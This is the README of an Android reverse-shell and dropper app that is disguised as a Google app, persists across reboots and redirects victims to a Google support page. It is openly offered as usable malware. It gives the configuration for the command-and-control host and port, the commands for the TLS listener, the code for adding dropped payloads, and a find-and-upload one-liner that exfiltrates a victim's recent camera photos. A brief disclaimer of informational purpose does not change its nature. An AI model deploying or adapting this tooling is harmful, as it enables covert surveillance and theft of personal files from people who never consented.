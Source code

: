 # revshellSdk28
This is my Android Reverse Shell with dropping capabilities.

The idea was to create a Termux-like environment with a main APK with core functionality, capable of dropping additional executables and scripts.

This app was made for fun and informational purposes only. I strongly discourage any illegal use of the app! Please be responsible.

## Features
- **Secure TLS shell**
- **Persistent** over time and reboots
- **Hidden** and camouflaged with Google apps
- **Drops additional statically linked executable and scripts** based on CPU architecture

Executable and scripts integrated by default:
- `socat` (aarch64 and x86/x64)
- `curl` (aarch64 and x86/x64)
- custom script for file exfiltration over HTTPS (`uplaod`, a file receiver is included in this project; see "httpServerFileReceiver" folder)
- custom script to get device public IP (`ipinfo`)
- custom script to override `whoami` and set a custom "victim id" (`whoami`)

## Performances

The Reverse Shell was tested on Android 8, 11, 12 and 13.

A long time test was successfully performed on a real Android 12 device: the shell has been active for 4 consecutive months without any kind of restart or interruption by the user. During this period, several system reboots and network disconnections were performed to verify the persistence of the app.

## Screenshots
This is the Reverse Shell in action. On the right side you can see the device app drawer: can you guess where is the malicious app? From a visual perspective the reverse shell is perfectly camouflaged with other Google Apps.

![screenshot1](screenshot1.png)

Unfortunately, to guarantee persistence, the app must show a persistent notification (as sneaky as possible):

![screenshot2](screenshot2.png)

On notification/app opening the user will be redirected to a Google support page:

![screenshot3](screenshot3.png)

## Technical details

### execve

This app is able to execute ELF files using `execve` function. The usage of this function is forbidden on Android Q or higher (API level *>28*).

For more details: https://android-review.googlesource.com/c/platform/system/sepolicy/+/804149

So, in order to compile this app, a target API level between 26 and 28 must be set. This, of course, resulted in a number of limitations so that certain features could not be included or used within the app.

### Statically linked binaries

On the target device there is no possibility to include any sort of dependency for the executable files or compile them from source so the malicious app drops **statically linked binaries** included in the APK at compile time.

To add more binaries you must:
- encode the binary to Base64
- put the encoded file in `./revshellSdk28/app/src/main/res/raw` folder
- modify `./revshellSdk28/app/src/main/java/org/android/settings/Dropper.kt`

  example:
  ```
              val payloads = arrayOf(
                arrayOf("aarch64", "socat" , readRawTextResource(context, R.raw.socat_aarch64)),
                arrayOf("aarch64", "curl"  , readRawTextResource(context, R.raw.curl_aarch64)) ,
                arrayOf("x86_64" , "socat" , readRawTextResource(context, R.raw.socat_x86_64)) ,
                arrayOf("x86_64" , "curl"  , readRawTextResource(context, R.raw.curl_x86_64))  ,
                arrayOf("any"    , "whoami", readRawTextResource(context, R.raw.whoami))       ,
                arrayOf("any"    , "ipinfo", readRawTextResource(context, R.raw.ipinfo))       ,
                arrayOf("any"    , "upload", readRawTextResource(context, R.raw.upload))
            )
  ```
  including (in order) the following parameters:
    - a specific architecture (aquired on the target machine using `uname -m`) or "any"
    - filename that will be written on device storage
    - name of the Resource File in the Android Project

Binaries included by default are not compiled by me! You can find these on various Github repos. Following, some examples:
- https://github.com/polaco1782/linux-static-binaries
- https://github.com/ryanwoodsmall/static-binaries
- https://github.com/mosajjal/binary-tools
- https://github.com/andrew-d/static-binaries

### Command and Control settings
In order to set your C2 server you must modify `./revshellSdk28/app/src/main/java/org/android/settings/MainMaliciousCode.kt`.

You can use an IP or an hostname. Example:
```
    object C2 {
        //const val IP    = "myc2.server.it"
        const val IP    = "123.123.123.123"
        const val RPORT = 443
        const val RETRY = 5
    }
```
Of course you must use a **public address**, set **port forwarding** and firewall rules on your router. Additionally, you can use DNS, Ngrok and other services for reachability and to route your traffic but **how to set this configurations or use those services is out of the scope of this documentation!**

### How to start a session
1. Generate a certificate for the TLS connection on your C2 server:
```
openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -out bind.crt
cat bind.key bind.crt > bind.pem
```
2. Create a listener with your favourite tool. Example:
```
sudo socat -d -d OPENSSL-LISTEN:443,cert=bind.pem,verify=0,fork STDOUT
```
Note: this app is not designed to work in a multi-client environment. The easiest thing you can do to use it with multiple devices is to use a different IP port for each infected machine and change the content of `./revshellSdk28/app/src/main/res/raw/whoami` to set a recognizable name for the victim system.

### Notes on the `upload` script
This script permits file exfiltration over HTTPS. 

To perform this task the file is first Urlencoded then uploaded using `curl` with `--insecure` and `--dns-servers` flags.

If the request return `200 OK` the file is already on the server so it's not uploaded again.

The file is located in `./revshellSdk28/app/src/main/res/raw/upload` and **you must modify it to set your C2 server!**

Example on how to upload a file:
```
upload file.bin
```

Example on how to upload most recent photos from the Camera folder:
```
cd ./DCIM/Opencamera && find $(pwd) -type f -mtime -30 -exec upload {} \;
```

Note: *a simple Python HTTP file receiver is included in this project. See "httpServerFileReceiver" folder. Put your certificate in "https" subfolder. Received files are located in "files" subfolder. Edit "server.py" as you wish.*


### Notes on DNS configuration
In the app environment there is no DNS configuration so in order to perform a connection with certain executables you must use an IP or set the DNS Server manually.

For example to use Curl you must use the `--dns-servers` flag.

Example: `curl --dns-servers 8.8.8.8,8.8.4.4 https://google.com`

### Usefull variables
In order to easily navigate on the infected system you can use the following Environment Variables:
- `HOME` set to `/storage/self/primary`
- `DEN` set to `/data/data/org.android.settings`
- `BINS` set to `/data/data/org.android.settings/.files/usr/bin`
- `PATH` set to `${'$'}BINS:${'$'}DEN:${'$'}PATH`

# TODO
Seems like the app notification permission is not enabled by default (you must enable it manually in the system settings) on some devices running Android 13.

This problem is under investigation.
